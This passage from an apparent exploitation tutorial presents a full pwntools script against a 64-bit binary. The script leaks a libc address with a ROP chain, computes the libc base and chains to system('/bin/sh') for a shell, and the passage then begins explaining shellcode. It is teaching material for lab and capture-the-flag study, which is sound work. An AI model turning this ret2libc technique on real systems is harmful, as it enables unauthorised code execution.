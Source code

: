 ### **Putting It All Together: A Sample Exploit Flow**

This snippet shows how these concepts combine into a coherent exploit strategy against a 64-bit binary.

```python
from pwn import *

# Setup
context.binary = elf = ELF('./vuln64')
p = process()

# Step 1: Leak a libc address with a ROP chain
rop = ROP(elf)
rop.puts(elf.got['puts'])
rop.main()

payload = flat({
    64: rop.chain() # Assume a 64-byte buffer
})
p.sendlineafter(b'> ', payload)

# Step 2: Calculate libc base address
leak = u64(p.recvline().strip().ljust(8, b'\\x00'))
libc = elf.libc # pwntools can often auto-detect the libc version!
libc.address = leak - libc.symbols['puts'] # Calculate base address

# Step 3: Build a new ROP chain with the known libc base
rop = ROP(libc) # Create a ROP object for libc
rop.system(next(libc.search(b'/bin/sh\\x00'))) # system("/bin/sh")

final_payload = flat({
    64: rop.chain()
})
p.sendline(final_payload)

# Step 4: Enjoy your shell!
p.interactive()
```

## Crafting Shellcode

**shellcode** is a small piece of machine code (usually written in assembly) that is injected into a vulnerable program to perform malicious actions, most commonly spawning a shell (`/bin/sh`).

### **Key Characteristics of Shellcode:**

1. **Written in Assembly**: Shellcode is typically hand-crafted in assembly language to ensure it is compact and position-independent.
    
2. **Position-Independent Code (PIC)**: It avoids hardcoded addresses to work reliably in different memory locations.
    